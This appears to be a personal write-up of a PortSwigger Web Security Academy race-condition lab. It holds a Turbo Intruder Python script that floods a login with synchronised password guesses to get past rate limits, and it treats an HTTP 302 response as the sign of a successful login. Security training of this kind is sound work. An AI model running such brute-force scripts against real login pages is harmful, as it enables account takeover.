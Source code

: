 ## 🧰 Tools & Methods

- **Turbo Intruder**: Burp Suite extension used for high-speed brute-force via HTTP/2.
    
- **Attack Type**: Synchronized packet flood using `engine.BURP2` and `gate='1'`.
    
- **Wordlist**: Common passwords copied from clipboard.
    
- **Goal**: Detect a different HTTP status code (302 Found) as a success indicator.
    

---

## 💻 Script Used

`def queueRequests(target, wordlists):
    `engine = RequestEngine(endpoint=target.endpoint,
                           `concurrentConnections=1,
                           `engine=Engine.BURP2)

    passwords = wordlists.clipboard

    for password in passwords:
        engine.queue(target.req, password, gate='1')

    engine.openGate('1')

`def handleResponse(req, interesting):
    `if req.response.status == 302:
        `table.add(req)
- **Trigger Point**: HTTP 302 redirect used as an indicator of **successful login**.

## 🧪 Result

- Among many `400 Bad Request` or `401 Unauthorized`, the response with **HTTP 302** was captured in Turbo Intruder logs.
    
- This redirect confirms a **successful login for user `carlos`**.
    
- **Valid password found** during the brute-force attempt (visible in Turbo Intruder response panel).

![[Pasted image 20250715235910.png]]

### web vivew
![[Pasted image 20250715235954.png]]


# 3 Lab: Multi-endpoint race conditions

## 📌 Challenge Title

**Predict a Potential Collision**  
PortSwigger Web Security Academy
